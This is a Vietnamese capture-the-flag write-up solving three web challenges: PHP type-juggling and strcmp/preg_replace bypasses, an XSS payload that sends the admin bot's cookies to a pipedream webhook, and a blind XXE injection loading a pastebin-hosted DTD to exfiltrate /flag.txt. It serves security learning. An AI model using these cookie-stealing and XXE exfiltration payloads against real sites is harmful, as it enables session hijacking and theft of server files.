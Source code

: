 # WEB

## Phpri Phprai

Đề bài: http://47.254.251.2:8889

Source code: 
```
<?php
    include 'config.php';
    show_source("index.php");
    error_reporting(0);
    if(isset($_GET["1"]) && isset($_GET["2"])) {
        $str1 = $_GET["1"];
        $str2 = $_GET["2"];
        if(($str1 !== $str2) && (md5($str1) == md5($str2))) {
            echo $flag1;
        }
    }
    if(isset($_GET["3"])) {
        if( strcmp( $_GET['3'], $$flag ) == 0) {
            echo $flag2;
        }
    }
    if(isset($_GET["4"])) {
        $str4 = $_GET["4"];
        $str4=trim($str4);
        if($str4 == '1.4e5' && $str4 !== '1.4e5') {
            echo $flag3;
        }
    }
    if(isset($_GET["5"])) {
        $str5 = $_GET["5"];
        if($str5 == 69 && $str5 !== '69' && $str5 !== 69 && strlen(trim($str5)) == 2) {
            echo $flag4;
        }
    }
    if(isset($_GET["6"])) {
        $str6 = $_GET["6"];
        $var1 = 'KaCeEtCe';
        $var2 = preg_replace("/$var1/", '', $str6);
        if($var1 === $var2) {
            echo $flag5;
        }
    }
?>
```

Flag được chia thành 5 phần:

**Flag1**: Ta cần tìm 2 chuỗi giá trị khác nhau nhưng hash md5 bằng nhau. 

Ở đây ta có 2 cách: 

Cách 1 là nhập vào 2 mảng: 1[] = a và 2[] = b sao cho a và b là 2 giá trị khác nhau. Khi đó nó trở thành: $_GET["1"] = array([0] => a) và $_GET["2"] = array([0] => b), khi hash md5 1 array thì kết quả trả về Null, nên so sánh 2 giá trị hash là bằng nhau. 

Cách 2 là search google với keyword md5 hash collision và tìm thấy 2 chuỗi `240610708` và `QNKCDZO` cho ra giá trị băm md5 được so sánh == là giống nhau. Do khi hash md5 2 giá trị này nó ra dạng 0e..., chúng cùng = int(0) nên với so sánh lỏng lẻo (==) thì 2 giá trị này bằng nhau. 

=> Payload1: http://47.254.251.2:8889/?1=240610708&2=QNKCDZO

Nhận được Flag1: `KCSC{B0_u_Bu_S4`

**Flag2**: Ta cần tìm 1 chuỗi sao cho so sánh (strcmp()) với $flag là giống nhau
Flag chỉ gồm 5 phần từ $flag1-5 nên $flag khả năng mang giá trị rỗng, nên mình thử nhập ?3='' thì ra luôn flag2. Ngoài ra, ta có thể dùng nhập mảng rỗng hoặc không nhập gì cũng cho ra flag2. 

=> Payload2: http://47.254.251.2:8889/?3[]=''

Nhận được Flag2: `C_8usssssss_htt`

**Flag3**: Ta cần tìm chuỗi sao cho khác 1.4e5 nhưng so sánh lỏng lẻo (==) thì bằng 1.4e5

Ở đây 1.4e5 = 1.4*10^5 nên ta có thể thay thành 0.14e6, 14e4, 140e3, 1400e2,... đều ra được flag3.

=> Payload3: http://47.254.251.2:8889/?4=14e4

Nhận được Flag3: `ps://www.youtub`

**Flag4**: Tương tự flag trước, ta cần tìm 1 chuỗi sao cho khác 69 nhưng so sánh lỏng lẻo (==) thì bằng 69 và độ dài chuỗi sau khi loại bỏ ký tự space trái phải bằng 2.

Ta nhập thêm 1 ký tự space vào trước 69 và URL Encode thành %2069 là thỏa mãn yêu cầu

=> Payload4: http://47.254.251.2:8889/?5=%2069

Nhận được Flag4: `e.com/watch?v=x`

**Flag5**: Cần tìm 1 chuỗi sao cho khi preg_replace đi 1 lần KaCeEtCe thì vẫn so sánh bằng tuyệt đối với KaCeEtCe.

Vậy ta chỉ cần chèn KaCeEtCe vào giữa KaCeEtCe là được chuỗi cần tìm

=> Payload5: http://47.254.251.2:8889/?6=KaCeKaCeEtCeEtCe

Nhận được Flag5: `QtC3F8fH6g}`

Payload hoàn chỉnh là: http://47.254.251.2:8889/?1=240610708&2=QNKCDZO&3[]=''&4=14e4&5=%2069&6=KaCeKaCeEtCeEtCe

Flag: `KCSC{B0_u_Bu_S4C_8usssssss_https://www.youtube.com/watch?v=xQtC3F8fH6g}`


**2 bài bên dưới mình chưa solve được trong thời gian diễn ra do mình chưa biết đến RequestBin của Pipedream để thu thập các request trên webhook và mình mới tìm hiểu về web exploitation khoảng vài tháng gần đây. Tuy nhiên mình biết đúng payload để exploit và sau khi kết thúc giải, mình xem writeup của 1 số bạn và hoàn thành 2 chall này =((**

## Hi Hi Hi

Đề bài: http://146.190.115.228:20109/

Web có chức năng nhập vào 1 message lời chúc và hiển thị message đó lên trang web. Bên dưới là chức năng gửi report tới localhost của Webserver. 

![image](https://user-images.githubusercontent.com/80137840/213621541-2e31e7bc-eaa7-45c8-ac11-e187636f29b8.png)

Khả năng web bị dính XSS. Thử nhập 'abc' ta thấy message được hiển thị trong thẻ div

![image](https://user-images.githubusercontent.com/80137840/213621798-cc399b9b-cc64-482e-831b-5625caba4fa7.png)

Thử 1 số payload XSS thì web bị XSS với payload đơn giản: `<svg onload=alert('XSS')>`

![image](https://user-images.githubusercontent.com/80137840/213622177-11686f14-2bb1-4d60-8294-fc1cd46bae82.png)

Khai thác XSS lấy cookie bằng cách gửi message report tới Server với payload như sau:

`http://127.0.0.1:13337/?message=<svg%20onload="window.location=%27https://eolqec95un0vjzg.m.pipedream.net/?cookie=%27%2B(document.cookie)">`

![image](https://user-images.githubusercontent.com/80137840/213625305-3fd8f1dc-9520-47a9-8ef0-5df99b9644bd.png)
    
Và nhận được flag:

![image](https://user-images.githubusercontent.com/80137840/213625487-a173ebe1-2f87-4566-8f4f-cb989c99a5e8.png)

Flag: `KCSC{T3T_TU1_3_T13P_Hmmmmmmmm}`
    
    

## XXD

Đề bài: http://146.190.115.228:13373/

Bài này cho 1 form nhập thông tin và Submit

![image](https://user-images.githubusercontent.com/80137840/213668883-c8f23281-cc5b-45cd-ac0a-a735ac4c7531.png)

Thử nhập thông tin và kiểm tra request submit

![image](https://user-images.githubusercontent.com/80137840/213671848-f3b11c8d-224e-4d05-8a45-37299b768a52.png)

Thông tin được gửi đi dưới dạng XML nên khả năng là lỗi XXE. Ngoài ra, response trả về có status = 1 nên đây là blind XXE.

Sau khi thử 1 vài payload trên [Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection) thì mình thấy có 1 payload khai thác thành công là [XXE OOB with DTD and PHP filter](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#xxe-oob-with-dtd-and-php-filter)

Tạo DTD trên pastebin với flag location là /flag.txt: [maliciousDTD](https://pastebin.com/raw/wUE4Wbyb)

![image](https://user-images.githubusercontent.com/80137840/213678940-a304069f-2215-4c27-b1f6-c7c88a5882d2.png)

Inject đoạn XML vào request gửi lên Server:

```
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "https://pastebin.com/raw/wUE4Wbyb">
%sp;
%param1;
]>
<r>&exfil;</r>
```

![image](https://user-images.githubusercontent.com/80137840/213679485-4bf7c812-f132-42c1-a8db-aed83a167b0a.png)

Và nhận được nội dung file /flag.txt

![image](https://user-images.githubusercontent.com/80137840/213679703-e43d62f7-442f-4ffe-9889-08eeaac4b31d.png)

Decode base64 ta nhận được flag:

![image](https://user-images.githubusercontent.com/80137840/213679811-7b8587dd-8c4c-43b2-993a-7bf987ac401d.png)

Flag: `KCSC{blind_xxD_xxO_xx]_xxe!!@#@}`
